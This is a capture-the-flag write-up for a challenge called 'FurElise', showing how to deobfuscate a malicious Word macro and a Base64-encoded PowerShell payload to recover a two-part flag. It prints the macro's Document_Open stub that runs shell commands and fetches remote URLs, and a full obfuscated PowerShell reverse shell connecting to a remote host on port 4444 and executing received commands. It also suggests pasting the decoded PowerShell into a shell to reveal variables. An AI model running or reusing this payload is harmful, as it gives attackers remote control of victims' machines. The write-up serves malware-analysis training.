 # FurElise

## Solution

The challenge requires us to download a zip file containing a text file <a href="images/heartbroken.txt">heartbroken.txt</a>. The file contains some Powershell commands along with many lines of 'FurElise'.
```
Sub Document_Open()
	Set dCBkaW1pbm = CreateObject("WScript.Shell")
	pbmcgYXQgY3Jvc = "&h&t&t&p&s&:&/&/&"
	CBtYXR0ZXJucy = "&p&a&s&t&e&b&i&n&.&c&o&m&"
	4gb3ZlciB3ZSB = "&/&r&a&w&/&K&h&4&V&y&U&Y&c&"
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
                 [REDACTED]
```
To remove the unnecessary lines, we can use ```uniq``` command in Linux rather than manually removing the ```FurElise```. The output will be stored in ```new.txt```
```
cat heartbroken.txt | uniq > new.txt
```
```
Sub Document_Open()
	Set dCBkaW1pbm = CreateObject("WScript.Shell")
	pbmcgYXQgY3Jvc = "&h&t&t&p&s&:&/&/&"
	CBtYXR0ZXJucy = "&p&a&s&t&e&b&i&n&.&c&o&m&"
	4gb3ZlciB3ZSB = "&/&r&a&w&/&K&h&4&V&y&U&Y&c&"
	''''''FürElise''''''FürElise
	Replace(luY2lkZW50IG,"&","")
	Replace(luZyB0aGF0IG,"&","")
	Replace(VsZCBkZWNvZG,"&","")
	Replace(N0b3JzLCBjb3,"&","")
```
However, we can see that & makes the command hard to understand. So, we need to remove & from the text file.
```
cat new.txt | sed 's/&//g'
```

```
Sub Document_Open()
        Set dCBkaW1pbm = CreateObject("WScript.Shell")
        pbmcgYXQgY3Jvc = "https://"
        CBtYXR0ZXJucy = "pastebin.com"
        4gb3ZlciB3ZSB = "/raw/Kh4VyUYc"
        ''''''FürElise''''''FürElise
        Replace(luY2lkZW50IG,"","")
        Replace(luZyB0aGF0IG,"","")
        Replace(VsZCBkZWNvZG,"","")
        Replace(N0b3JzLCBjb3,"","")
        Replace(BkZWZpbmVkIH,"","")
        Replace(4gY29tcGxleC,"","")
        Replace(pbmcgYXQgY3Jvc,"","")
        Replace(CBtYXR0ZXJucy,"","")
        Replace(4gb3ZlciB3ZSB,"","")
        dCBkaW1pbm.Exec("whoami")
        ''''''FürElise''''''FürElise
        luY2lkZW50IG = “https://gist.githubusercontent.com/zachwong02”
        luZyB0aGF0IG = “/5a8e7d365c6d9b649b12be3c890c8cb4”
        VsZCBkZWNvZG = “/raw”
        N0b3JzLCBjb3 = “/85f79114e8cb93dca7d1ae44d5fd81aa95d021e9”
        BkZWZpbmVkIH = “/gistfile1”
```

Now, we can clearly see two links that we can access. 
https://pastebin.com/raw/Kh4VyUYc and https://gist.githubusercontent.com/zachwong02/5a8e7d365c6d9b649b12be3c890c8cb4/raw/85f79114e8cb93dca7d1ae44d5fd81aa95d021e9/gistfile1.txt

### Flag 1/2
From the first link we get the first part of the flag
```
ABOH23{d!ff1cU17_s0Ng
```

From the second link, we get encrypted lines that also mention Powershell. By using CyberChef, we can conclude that it is Base64 encode. You can also copy the encrypted lines and use Base64 decode command in Linux.
```
cat flag2.txt | base64 -d
```

```
if (-not(&($([char](99+84-99)+[char](67*101/67)+[char](0+115-0)+[char](0+116-0)+[char](16+45-16)+[char](114+80-114)+[char](96*97/96)+[char](0+116-0)+[char](0+104-0))) -Path ($('$'+'e'+'n'+'v'+':'+'U'+'S'+'E'+'R'+'P'+'R'+'O'+'F'+'I'+'L'+'E') + ([string]::join('', ( (92,68,101,115,107,116,111,112,92,77,117,115,105,99) |%{ ( [char][int] $_)})) | % {$_})) -PathType (([string]::join('', ( (76,101,97,102) |%{ ( [char][int] $_)})) | % {$_})))){
        & (("jDkavXf-p98OYShtMg4A2cN5xPIHeF1zyElTnwZmRbLKQGisJC0UWoBVduqr637")[37,59,46,15,28,7,14,53,47,15] -join '') (('d'+'o'+'n'+'t'+' '+'e'+'x'+'e'+'c'+'u'+'t'+'e'+' '+'t'+'h'+'e'+' '+'s'+'c'+'r'+'i'+'p'+'t'+'.'+'.'+'.'+' '+'a'+'m'+'a'+'t'+'e'+'u'+'r'+' '+'m'+'o'+'m'+'e'+'n'+'t'+'.'+'.'+'.'))
        return
}
$LHOST = $([char](36*36/36)+[char](76+40-76)+[char](0+49-0)+[char](27*43/27)+[char](0+49-0)+[char](27*43/27)+[char](86+48-86)+[char](0+45-0)+[char](0+49-0)+[char](0+41-0)+[char](0+99-0)+[char](98+97-98)+[char](52+116-52)+[char](7*101/7)+[char](0+62-0)+[char](0+57-0)+[char](0+50-0)+[char](0+46-0)+[char](43*49/43)+[char](0+54-0)+[char](116+56-116)+[char](37*46/37)+[char](86*50/86)+[char](94*50/94)+[char](0+49-0)+[char](76+46-76)+[char](0+49-0)+[char](74+52-74)+[char](96*56/96));
$LPORT = ($(4444));
$TCPClient = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) Net.Sockets.TCPClient($LHOST, $LPORT);
$NetworkStream = $TCPClient.GetStream();
$StreamReader = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) IO.StreamReader($NetworkStream);
$StreamWriter = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) IO.StreamWriter($NetworkStream);
$StreamWriter.AutoFlush = $true;
$Buffer = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) System.Byte[] $($(1024));
while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length);
$c2 = $([char](27*104/27)+[char](60+116-60)+[char](57*116/57)+[char](67*112/67)+[char](18+115-18)+[char](28+58-28)+[char](76*47/76)+[char](50*47/50)+[char](83*112/83)+[char](89*97/89)+[char](0+115-0)+[char](23*116/23)+[char](7*101/7)+[char](78+98-78)+[char](76*105/76)+[char](86+110-86)+[char](0+46-0)+[char](86*99/86)+[char](52*111/52)+[char](100+109-100)+[char](10*47/10)+[char](0+114-0)+[char](94+97-94)+[char](95+119-95)+[char](25*47/25)+[char](0+74-0)+[char](59*67/59)+[char](31+103-31)+[char](0+76-0)+[char](56+122-56)+[char](57+52-57)+[char](0+102-0)+[char](40*49/40));
$Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) };
if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { & ([string]::join('', ( (73,110,118,111,107,101,45,69,120,112,114,101,115,115,105,111,110) |%{ ( [char][int] $_)})) | % {$_}) ($Code) 2>&1 } catch { $_ };
$StreamWriter.Write($(($('$'+'O'+'u'+'t'+'p'+'u'+'t'+'`'+'n'))));
$Code = $null } };
$TCPClient.Close();
$NetworkStream.Close();
$StreamReader.Close();
```
By pasting the command inside Powershell, we can know the value of each variable. Variable ```c2 ``` contains the link for second flag

<p align="center">
  <img width="80%" height="300" src="images/Capture1.PNG">
</p>

https://pastebin.com/raw/JCgLz4f1

### Flag 2/2
```
_FROm_hEaRtBrE4K}
```

## Flag
```
ABOH23{d!ff1cU17_s0Ng_FROm_hEaRtBrE4K}
```
